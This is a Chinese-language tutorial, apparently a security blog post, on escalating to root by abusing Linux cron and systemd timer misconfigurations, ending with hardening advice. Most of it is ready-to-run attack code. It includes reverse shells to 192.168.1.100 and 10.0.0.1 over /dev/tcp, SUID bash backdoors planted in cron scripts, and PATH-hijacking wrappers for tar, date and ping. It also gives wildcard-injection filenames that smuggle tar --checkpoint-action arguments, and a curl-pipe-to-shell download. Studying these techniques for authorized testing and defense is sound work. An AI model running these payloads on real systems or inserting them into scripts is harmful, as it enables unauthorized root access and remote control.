


## 引言

Cron 是 Linux 定时任务的核心组件。Cron 的不当配置——脚本可写、相对路径滥用、通配符使用不当——往往成为本地提权的突破口。本文系统梳理 crontab 枚举、脚本覆盖、PATH 劫持、通配符注入、Systemd Timer 及 pspy 进程监控等提权技术。

> **免责声明：** 本文所述技术仅供安全研究与授权测试使用，严禁非法用途。

---

## 一、Crontab 枚举

拿到初始 Shell 后，首先应对目标的 Cron 配置进行全面枚举。

### 关键路径

```bash
# 系统级 crontab 与 cron 目录
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/ /etc/cron.monthly/

# 用户级 crontab
ls -la /var/spool/cron/
ls -la /var/spool/cron/crontabs/        # Debian/Ubuntu
cat /var/spool/cron/* 2>/dev/null
crontab -l 2>/dev/null
```

### 一键枚举

```bash
cat /etc/crontab 2>/dev/null
ls -laR /etc/cron* 2>/dev/null
ls -laR /var/spool/cron 2>/dev/null
find /etc/cron* /var/spool/cron -writable -type f 2>/dev/null
```

### LinPEAS 辅助

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

---

## 二、可写脚本覆盖攻击

当 Cron 调用的脚本对当前用户具有写权限时，可直接篡改脚本内容获取高权限 Shell。

### 发现可写脚本

```bash
find /etc/cron* /var/spool/cron -writable -type f 2>/dev/null
grep -v "^#" /etc/crontab 2>/dev/null | awk '{print $NF}' | while read f; do
    [ -w "$f" ] && echo "[+] Writable: $f"
done
```

### 注入 Payload

```bash
# root每5分钟执行 /opt/backup.sh 且该文件可写
cat > /opt/backup.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
EOF
# 或追加到末尾保留原有逻辑：
echo 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1 2>&1 &' >> /opt/backup.sh
```

---

## 三、PATH 环境变量劫持（核心）

这是 Cron 提权中最经典的一类场景。Cron 执行任务时的环境变量与交互式 Shell 完全不同：默认 `PATH` 通常只有 `/usr/bin:/bin`，**不包含当前目录**。若 Cron 脚本使用了相对路径命令，且 PATH 中存在更靠前且可写的目录，即可劫持命令执行。

### 3.1 确认 Cron 的默认环境

```bash
# 创建一个临时 Cron 任务收集环境信息
echo '* * * * * env > /tmp/cron_env.txt' | crontab -
# 一分钟后查看
cat /tmp/cron_env.txt
# 典型输出：
# HOME=/root
# PATH=/usr/bin:/bin
# SHELL=/bin/sh
```

### 3.2 场景一：脚本 cd 到可写目录后执行相对命令

```bash
# /etc/crontab 条目：
# */1 * * * * root cd /opt/scripts && ./cleanup.sh

# 如果 /opt/scripts 可写
cat > /opt/scripts/cleanup.sh << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootshell && chmod u+s /tmp/rootshell
EOF
chmod +x /opt/scripts/cleanup.sh
# 等待 Cron 执行后：/tmp/rootshell -p
```

### 3.3 场景二：脚本使用不带绝对路径的命令

```bash
# /opt/backup.sh 由 root Cron 执行，内容：
#!/bin/bash
cd /backup
tar -czf data.tar.gz /home/user/data
date >> /var/log/backup.log

# tar 和 date 均未使用绝对路径。
# 如果 PATH 中某个靠前的目录可写，即可劫持。
# 查找可写的、在 PATH 中的目录：
echo $PATH | tr ':' '\n' | while read d; do
    [ -w "$d" ] && echo "[+] $d is writable"
done

# 假设 /usr/local/bin 可写，创建劫持文件：
cat > /usr/local/bin/tar << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootshell && chmod 4777 /tmp/rootshell
# 调用真正的 tar 保持功能正常
/usr/bin/tar "$@"
EOF
chmod +x /usr/local/bin/tar
```

### 3.4 完整流程示例

```bash
# Step 1: 枚举 Cron
cat /etc/crontab && cat /opt/monitor/check.sh  # 发现调用 ping（无绝对路径）

# Step 2: 检查可写路径
find / -writable -type d 2>/dev/null | grep -E "(bin|sbin|opt|usr/local)" | head -10

# Step 3: 创建劫持（假设脚本先 cd 入可写目录）
cat > /opt/monitor/ping << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/.rsh && chmod 4777 /tmp/.rsh; /bin/ping "$@"
EOF
chmod +x /opt/monitor/ping

# Step 4: 提权
/tmp/.rsh -p
```

### PATH 劫持流程图



---

## 四、通配符注入（Wildcard Injection）

当 Cron 脚本使用 `tar`、`rsync`、`chown` 等命令配合通配符 `*` 时，可利用文件名与命令参数冲突实现注入。

### 4.1 tar 通配符注入

```bash
# Cron 脚本：cd /var/backup && tar -czf /backup/archive.tar.gz *

# 在 /var/backup 目录中创建特殊文件名：
cd /var/backup
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh /tmp/payload.sh"

cat > /tmp/payload.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
EOF
chmod +x /tmp/payload.sh

# 通配符 * 展开后 tar 命令实际为：
# tar -czf /backup/archive.tar.gz --checkpoint=1 --checkpoint-action=exec=sh /tmp/payload.sh ...
# tar 将 --checkpoint* 解析为参数，进而执行 payload.sh
```

### 4.2 其他常见命令的通配符利用

| 命令 | 利用参数 | 示例 |
|------|----------|------|
| tar | `--checkpoint=N --checkpoint-action=exec=CMD` | 见上 |
| rsync | `-e CMD` | `touch -- "-e sh /tmp/x.sh"` |
| chown | `--reference=FILE` | `touch -- "--reference=/etc/shadow"` |
| chmod | `--reference=FILE` | `touch -- "--reference=/etc/shadow"` |
| zip | `-T --unzip-command=CMD` | `touch -- "-T --unzip-command=sh x.sh"` |

---

## 五、pspy：无痕监控 Cron 进程

pspy 是一款无需 root 权限即可监视进程活动的工具，可发现短暂运行的 Cron 任务。

```bash
# 下载并运行
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64 -c           # -c 彩色输出

# 输出示例：
# 10:01:01 CMD: UID=0 PID=12345 | /bin/sh /opt/cleanup.sh
# 10:01:01 CMD: UID=0 PID=12346 | tar -czf data.tar.gz *
# 10:01:01 CMD: UID=0 PID=12347 | date >> /var/log/backup.log

# 关键分析点：
# ① UID=0 的进程 → root Cron 在执行
# ② 使用相对路径的命令 → 可 PATH 劫持
# ③ 使用 * 通配符 → 可通配符注入
# ④ /tmp、/opt 下的脚本调用 → 检查可写性
```

---

## 六、Systemd Timer：现代替代方案

现代 Linux 中 Systemd Timer 正逐步取代 Cron，配置不当同样存在提权风险。

### 枚举 Timer

```bash
systemctl list-timers --all
find /etc/systemd /usr/lib/systemd -name "*.timer" -o -name "*.service" 2>/dev/null | head -20
systemctl cat backup.service 2>/dev/null   # 查看具体 Service 内容
```

### 提权场景

```bash
# 场景：Timer 对应的 Service 可写
ls -la /etc/systemd/system/backup.service
# -rw-rw-rw- 1 root root ...    ← 全局可写

# 修改 ExecStart 为反弹 Shell
sed -i 's|ExecStart=.*|ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"|' \
    /etc/systemd/system/backup.service
systemctl daemon-reload && systemctl start backup.service

# 场景：Service 的 ExecStart 指向可写脚本
# ExecStart=/opt/scripts/cleanup.sh
# 如果脚本可写，直接覆盖即可，与 Cron 脚本覆盖同理
```

### Cron vs Systemd Timer

| 特性 | Cron | Systemd Timer |
|------|------|---------------|
| 配置 | crontab | Unit 文件 (INI) |
| 环境变量 | PATH 极简 | Service 中显式定义 |
| 日志 | 自行重定向 | 集成 journald |
| 资源限制 | 无 | CPU/Memory 限制 |

---

## 七、综合攻击流程



---

## 八、实战剧本示例

```bash
# ====== 侦察 ======
cat /etc/crontab                           # */5 * * * * root /opt/monitoring/diag.sh
ls -la /opt/monitoring/diag.sh             # -rwxrwxr-x → 可写！
cat /opt/monitoring/diag.sh
# cd /opt/monitoring
# tar -czf /var/log/diag.tar.gz logs/
# date >> /var/log/diag.log                ← 无绝对路径

# ====== 利用（三选一） ======
# A: 覆盖脚本
cat > /opt/monitoring/diag.sh << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/.rsh && chmod 4777 /tmp/.rsh
EOF
# B: PATH劫持date
echo -e '#!/bin/bash\ncp /bin/bash /tmp/.rsh && chmod 4777 /tmp/.rsh\n/bin/date "$@"' \
    > /opt/monitoring/date && chmod +x /opt/monitoring/date
# C: 通配符注入
cd /opt/monitoring/logs
touch -- "--checkpoint=1" && touch -- "--checkpoint-action=exec=sh /tmp/x.sh"

# ====== 获取root ======
# 等待5分钟后
/tmp/.rsh -p    # uid=0(root) gid=0(root)
```

---

## 九、防御建议

1. **始终使用绝对路径**：Cron 脚本中所有命令必须写完整路径（`/usr/bin/tar` 而非 `tar`）。
2. **严格控制权限**：Cron 脚本设为 `700`/`750`，所有者为 root。
3. **显式设置 PATH**：在 crontab 顶部定义 `PATH=/usr/bin:/bin:/usr/sbin`。
4. **避免通配符滥用**：用精确文件列表替代 `*`；必须使用时加 `--` 分隔（如 `tar -czf out.tar.gz -- *`）。
5. **定期审计**：用 pspy/auditd 监控异常 Cron 行为，用 AIDE/Tripwire 监控关键文件权限。
6. **审计 Systemd Timer**：与 Cron 同等对待，检查 Timer/Service 文件权限。

---

## 十、总结

Cron 提权是 Linux 本地提权的高频考点，核心可归纳为三条攻击链路：

| 攻击路径 | 前提条件 | 核心动作 |
|----------|----------|----------|
| 脚本覆盖 | Cron 脚本对低权限用户可写 | 直接修改脚本注入 Payload |
| PATH 劫持 | Cron 脚本中使用相对路径命令 | 在 PATH 靠前位置创建同名恶意文件 |
| 通配符注入 | Cron 脚本使用 `tar *` 等通配符 | 创建带参数字符的特殊文件名 |

实战中建议先使用 **pspy** 静默监控以发现隐藏的定时任务，再结合 **LinPEAS** 自动化定位可写脚本与 PATH 漏洞，最后根据具体情况选择最稳定的利用方案。掌握这些技术后，你会发现许多看似安全的 Linux 系统，仅仅因为一个使用了 `tar` 而非 `/usr/bin/tar` 的 Cron 脚本，就能从 www-data 一跃成为 root。
